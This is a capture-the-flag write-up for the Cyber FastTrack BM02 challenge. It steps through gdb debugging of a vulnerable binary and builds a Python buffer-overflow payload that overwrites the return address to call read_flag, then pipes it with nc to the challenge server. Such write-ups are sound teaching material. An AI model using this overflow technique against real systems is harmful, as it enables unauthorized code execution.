# Cyber FastTrack Spring 2020- BM02 Solution
In this challenge, we use buffer overflow to display the flag.\
BM02.PNG\
![image info](BM02.png)
* This is the challenge for BM02.

BM02_1.png\
![image info](BM02_1.png)
* We use IDA software to display the structure of this program. There are the exploitable(char const*) function and the read_flag(void) function. Also, there are some local variales that stored in the explotable() function. For a better understanding of the program, we need a gdb debugger.

BM02_2.png\
![image info](BM02_2.png)
* In the terminal, we type `gdb <name of your program>` to start the debugger.
* Type `run` to run the program in the debugger.
* Hold down the Ctrl key and press c

BM02_3.png\
![image info](BM02_3.png)
* Notice that, if we look through the program, we know that we must enter `add_candidate` in order to add employee and use the exploitable() function.

BM02_4.png\
![image info](BM02_4.png)
* Enter `disas exploitable(char const*)`
* Enter `c` to continue without paging
* we use break *address to set a break point. In this case, we use 0x5655634d.


BM02_5.png\
![image info](BM02_5.png)
* Type `break *0x5655634d`
* Type `run`
* Type `add_candidate`

BM02_6.png\
![image info](BM02_6.png)
* Enter one information for each of the First Name, Last Name, and Job Title.
  * In this case, I entered `First` as the First Name, `Last` as the Last Name, and `Title` as the Job Title.
* Then, you will encounter an breakpoint at `Breakpoint 1, 0x5655634d in exploitable(char const*) ()`

BM02_7.png\
![image info](BM02_7.png)
* Enter info frame to get the return address that stored at eip. In this case, the return address is `0x56557492`. 

BM02_8.png\
![image info](BM02_8.png)
* Display the current and the next 199 stack pointer.
* Enter `x/200x $sp`
* The addresses that are 0x00000000 are local variables that we need to fill in before accessing/changing the return address. So in a text file, we enter the following and save it as a python file.
```python
print("add_candidate")
print('A'*20)
```
BM02_9.png\
![image info](BM02_9.png)
* Hold down the Ctrl key and press c to exit the current program
* To run the program again, we type `run < <(python bm02.py)`
* Type `y` to start from the beginning
* In order to see the differences, we enter x/200x $sp to display the current and the next 199 stack pointer.
	From BM02_9.png, we see that there are twenty-five `0x00000000` remaining for us to fill out and then we have to overwrite the `0xdeadbeef`.
	Next, in order for us to change to return address, we need to overwrite the addresses that are before the return address. There are three adresses remaining to changes. Then, we changes the return address to `0x5655615d`. Note: we get `0x5655615d` from `disas read_flag` in the debugger. Remember, we have to write the addresses in reverse byte order.
	So, we changes the contents of the python file to:
```python
print("add_candidate")
print('A'*120 + '\xef\xbe\xad\xde' + 'A'*12 + '\x5d\x61\x55\x56')
```	

BM02_10.png\
![image info](BM02_10.png)
* Hold down the Ctrl key and press c to exit the current program
* To run the program again, we type `run < <(python bm02.py)`
* Type y to start from the beginning
* Enter `info frame` to see if the return address changed to `0x5655615d`.

BM02_11.png\
![image info](BM02_11.png)
* Use `si` to execute one instruction at a time to see if the program enters the `read_flag(void)` function.
* We see that the program enters the `read_flag(void)` function.

BM02_12.png\
![image info](BM02_12.png)
* Use `si` to execute one instruction at a time and we will see the flag eventually.

BM02_13.png\
![image info](BM02_13.png)
* In order to get the server to response to our request, we need to print out the last name and the job title. So we edit the python file as below:
```python
print("add_candidate")
print('A'*120 + '\xef\xbe\xad\xde' + 'A'*12 + '\x5d\x61\x55\x56')
print("Last")
print("Title")
```	
* Send the bm02.py to the server and it would prints out the flag.
  * `python bm02.py | nc bm02.allyourbases.co 9003`





	
